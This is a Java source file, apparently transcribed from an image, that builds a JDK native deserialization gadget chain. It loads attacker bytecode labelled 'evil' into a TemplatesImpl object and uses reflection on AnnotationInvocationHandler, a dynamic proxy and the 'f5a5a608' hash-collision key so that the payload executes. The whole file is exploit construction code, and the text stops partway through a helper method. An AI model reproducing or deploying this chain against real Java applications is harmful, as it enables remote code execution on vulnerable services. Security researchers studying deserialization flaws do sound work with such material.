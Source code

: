 ```java
public class Gadget {
    public static void main(String[] args) throws NoSuchFieldException, IOException, IllegalAccessException, TransformerConfigurationException, ClassNotFoundException, NoSuchMethodException, InvocationTargetException, InstantiationException {
        //read evil bytecode-1
        //InputStream is = Aur0ra.class.getResourceAsStream("Aur0ra.class");

        //read evil bytecode-2
        FileInputStream is = new FileInputStream("D:\\Projects\\JAVA\\jdkSer\\target\\test-classes\\Aur0ra.class");
        
        int available = is.available();
        byte[] bytes = new byte[available];
        is.read(bytes,0,available);

        //construct TemplatesImpl
        TemplatesImpl templates = new TemplatesImpl();

        Class<? extends TemplatesImpl> clazz = templates.getClass();

        Field bytecodes = clazz.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(templates,new byte[][]{bytes});

        Field name = clazz.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"Aur0ra");

        Class<?> annoClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor<?> declaredConstructor = annoClass.getDeclaredConstructor(Class.class, Map.class);
        declaredConstructor.setAccessible(true);
        Object anno = declaredConstructor.newInstance(Annotation.class,new HashMap());

        //set anno.type
        setValue(anno,"type",TemplatesImpl.class);

        unsetFinal(anno,"memberMethods");
        setValue(anno,"memberMethods",new Method[]{clazz.getDeclaredMethod("getOutputProperties")});

        Map proxy = (Map) Proxy.newProxyInstance(Gadget.class.getClassLoader(), new Class[]{Map.class}, (InvocationHandler) anno);

        HashMap map = new HashMap();
        map.put("f5a5a608", templates);

        unsetFinal(anno,"memberValues");
        setValue(anno,"memberValues",map);
        
        HashMap hashMap = new HashMap();
        hashMap.put(templates,templates);
        hashMap.put(proxy,123);

    }

    public static void setValue(Object obj,String filed,Object value){
        try {
            Field declaredField = obj.getClass().getDeclaredField(filed);

            declaredField.setAccessible(true);

            declaredField.set(obj,value);
```